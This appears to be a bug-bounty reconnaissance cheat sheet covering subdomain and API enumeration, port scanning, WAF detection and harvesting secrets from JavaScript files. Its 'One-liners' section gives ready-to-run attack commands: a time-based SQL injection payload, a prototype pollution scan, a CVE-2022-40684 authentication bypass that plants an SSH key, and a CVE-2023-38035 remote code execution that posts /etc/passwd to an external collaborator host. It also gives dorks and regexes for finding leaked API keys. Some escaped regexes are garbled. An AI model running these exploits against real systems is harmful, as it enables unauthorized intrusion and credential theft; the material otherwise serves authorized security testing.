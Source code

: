 ```yaml
---
tags:
  - hunting-methodology
---
```

# Subdomain Enumeration

>  **Tools**
- https://github.com/h0tak88r/AutoSubRecon
- https://github.com/bing0o/SubEnum
- https://github.com/shmilylty/OneForAll


> **Write ups** 

- https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
- https://h0tak88r.github.io/posts/Deep-Subdomains-Enumeration/
- 

# API Recon

1. Check for documentation 
	- Swagger -> `/openapi.json`
	- GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema 
	- manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
	- `site:target.tld inurl:api`
	- `intitle:"index of" "api.yaml" site:target.tld`
	- `intitle:"index of" intext:"apikey.txt" site:target.tld`
	- `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
	- https://wordlists-cdn.assetnote.io/data/automated/httparchive_apiroutes_2023_08_28.txt
	- swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
	- Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

# One-liners & Quick Wins
```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```
------

# Fingerprinting

-  Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)
    
    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
    
- Waf Detect
    
    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
- **[uncover](https://github.com/projectdiscovery/uncover)** >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.
	```python
	# installation
	go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
	# configuration file 
	$HOME/.config/uncover/provider-config.yaml
	# usage
	uncover -q "test.com" -e censys,fofa,shodan
	```
# JS Files 

> **Tools**

- [Scripts/python scripts/JS_Leaks_spider.py](https://github.com/h0tak88r/Scripts/blob/main/python%20scripts/JS_Leaks_spider.py)
- Use This Extension to analyse JS Files [FindSomething - Chrome Web Store (google.com)](https://chrome.google.com/webstore/detail/findsomething/kfhniponecokdefffkpagipffdefeldb/related)
- [Can analyzing javascript files lead to remote code execution? | by Asem Eleraky | Medium](https://melotover.medium.com/can-analyzing-javascript-files-lead-to-remote-code-execution-f24112f1aa1f)

```bash
# Collect JS Files
katana -list targets.txt -jc | grep “\\.js$” | uniq | sort -u | tee JS.txt

# or use gau tool
cat targets.txt | gau |  grep “\\.js$” | uniq | sort -u | tee JS2.txt

# Analyzing JS files
nuclei -l JS.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
nuclei -l JS2.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
cat Js_urls.txt | Mantra



# Download all JS files 
file="JS.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

file="JS2.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

# Use This Regex to search for sensitive info 
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret|smtp|GTM-" *.js

```